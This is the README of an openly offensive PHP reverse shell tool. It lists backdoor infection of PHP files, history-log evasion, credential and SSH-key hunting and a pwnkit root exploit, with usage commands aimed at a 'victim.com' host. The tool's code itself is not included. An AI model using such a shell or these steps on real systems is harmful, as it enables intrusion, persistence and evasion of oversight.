 # YAPS - **Y**et **A**nother **P**HP **S**hell

Yeah, I know, I know... But that's it. =)

As the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there. It is a single PHP file containing all its functions and you can control it via a simple netcat listener (`nc -lp 1337`).

In the current version (1.4), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs. =)

## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Can do some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell
* Duplicate connections
* Auto update
* Infect PHP files with backdoors
* **[NEW] Auto root reverse shell via pwnkit (CVE-2021-4034)**

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via post request (`curl -x POST -d "x=ip:port" victim.com/yaps.php`);
3. Open yaps.php on browser, curl it or run via CLI;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
* 3.2 You can run via CLI with `php yaps.php ip port`
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!duplicate - Spawn another YAPS connection`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!infect - Infect writable PHP files with backdoors`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`
* `!pwnkit - Tries to exploit CVE-2021-4034 and spawn a root revere shell`

## Screenshots

### Current commands:
![image](https://user-images.githubusercontent.com/3837916/152596714-f852a58a-8e19-4869-915a-94316099c6e6.png)

### Some recon:
![image](https://user-images.githubusercontent.com/3837916/127257433-778b1322-c82e-4857-897f-0f3f459dcb2b.png)

### Root reverse shell through CVE-2021-4034
![pwn](https://user-images.githubusercontent.com/3837916/152597200-267704b9-0d50-4bcd-a68f-3c8ea6c74c21.gif)


### Spawning a interactive shell
![stabilize](https://user-images.githubusercontent.com/3837916/127260504-3e78ab69-c3ee-411e-8a7d-f89fe5356a7f.gif)

### Duplicating a YAPS session
![duplicate](https://user-images.githubusercontent.com/3837916/127260519-e672a78e-84c5-4a58-aa39-85dae94d9a50.gif)

### Poisoning PHP files
![infect](https://user-images.githubusercontent.com/3837916/127263363-e286357c-2be0-4890-8895-4bd5adadd3af.gif)

### Writing remote PHP code
![remotephp](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

### Password protected shell
![passprotected](https://user-images.githubusercontent.com/3837916/127260459-cc50203d-3ba6-408b-af0f-820756e9891d.png)




## Changelog

**v1.4 - 04/02/2022**
- Added `!pwnkit` to exploit CVE-2021-4034 and spawn a root reverse shell
- Improved `verify_update()` function
- Minor improvements


**v1.3.1 - 01/08/2021**
- Bugs fixed

**v1.3 - 28/07/2021**
- Added `!infect` to infect PHP files with backdoors
- Changed `!stabilize` payload (bugs fixed)

**v1.2.2 - 18/07/2021**
- Changed 'update' function
- Changed 'connect' function
- Improved 'download' function
- Bugs fixed

**v1.2.1 - 17/07/2021**
- Bugs fixed

**v1.2 - 17/07/2021**
- Added `!duplicate` to spawn another shell
- Added update verification (`--update|-u`)
- Added CLI arguments (`--help|-h`)
- Added socket via arguments (`php yaps.php ip port`)
- Changed stabilize shell method (doesn't freeze anymore)
- Changed download method
- Changed connection method via POST (receives a single parameter)

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to unset HISTSIZE and HISTFILE
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell

